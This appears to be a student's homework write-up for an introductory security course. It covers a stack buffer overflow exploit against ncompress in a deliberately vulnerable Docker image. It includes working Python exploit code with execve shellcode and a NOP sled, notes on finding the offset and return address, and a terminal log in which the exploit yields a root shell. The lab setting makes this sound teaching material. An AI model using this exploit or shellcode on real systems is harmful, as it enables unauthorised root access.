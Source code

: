 # Homework #0

Topics: Github & Actions, Docker, Python, Bash, Buffer Overflows

# Write up of our first exploit (25 Points)
My exploit is the following:
--------------------------------------------------------------------------------
```import sys
import struct

payload = b""
payload += b"\x90" * 1000
payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload += b"\x90" * 16 
payload += struct.pack("<I", 0xffffc9dc+ 1000) *30

sys.stdout.buffer.write(payload)
```
--------------------------------------------------------------------------------

I concluded from the source code (the input path is 1024 bytes long) that the buffer is 1024 bytes long. From gdb and testing i concluded that the return address is overwritten after 1068 bytes (buffer plus other stuff). So I added nearly this many bytes as a nop sled, then added the shellcode and some more nop sleds (the code didn't seem to work otherwise). Then I added the address of the return address many times to compensate if the memory addresses "move" a bit. That's the same reason I have added the return address earlier than the 1068 bytes needed offset that I found.
The return address was found using 'sudo dmesg' to inspect where the stack pointer was when the segfault occured. I then found (with trial and error) that 1000 bytes where sufficient to get me to the nop sled, leading to execution of my shellcode. I have tested this and it works in multiple instances.


--------------------------------------------------------------------------------
A successful invocation:
--------------------------------------------------------------------------------
```
~/Documents/hack_intro/erg1/hw0-KStamoulis$ docker run --rm --privileged -v `pwd`/exploit.py:/exploit.py -it ethan42/ncompress:vulnerable
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

ubuntu@0d9b8c1aa83d:~$ echo hello | ncompress
��hʰa�Fubuntu@0d9b8c1aa83d:~$ python3 /exploit.py > /tmp/payload
ubuntu@0d9b8c1aa83d:~$ whoami
ubuntu
ubuntu@0d9b8c1aa83d:~$ ncompress `cat /tmp/payload`
����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������1�Ph//shh/bin����°
                      1�@̀����������������������������������������������������������������������������������������������������������������������������������������: File name too long
# whoami
root
# exit
ubuntu@0d9b8c1aa83d:~$ 
```
--------------------------------------------------------------------------------